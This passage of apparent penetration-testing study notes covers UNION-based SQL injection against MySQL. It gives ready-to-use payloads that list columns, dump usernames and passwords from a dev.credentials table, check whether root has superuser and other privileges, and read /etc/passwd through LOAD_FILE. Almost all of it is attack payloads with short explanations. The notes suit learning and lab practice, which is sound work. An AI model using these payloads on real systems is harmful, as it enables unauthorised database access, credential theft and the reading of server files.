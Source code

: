 **Note: W**e added a (where table_schema='') condition to only return tables from the specified' database, otherwise we would get all tables in all databases, which can be many.

**COLUMNS**

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='<TABLE_NAME>'-- -
```

**DATA**

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

In this case, it specifies dev.credentials (database.table). This is because the application is not querying information from that database, so it needs to be specify

## **Privileges**

### **DB User**

To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

### **User Privileges**

```sql
SELECT super_priv FROM mysql.user
```

**UNION payload example**

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

If the query returns `Y`, it means `YES`, indicating superuser privileges. 

**Check more privileges**

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

![image.png](SQL%20Injections%2013166046cc148077aa8ee70528dfedcc/image%201.png)

### **LOAD_FILE**

```sql
SELECT LOAD_FILE('/etc/passwd');
```
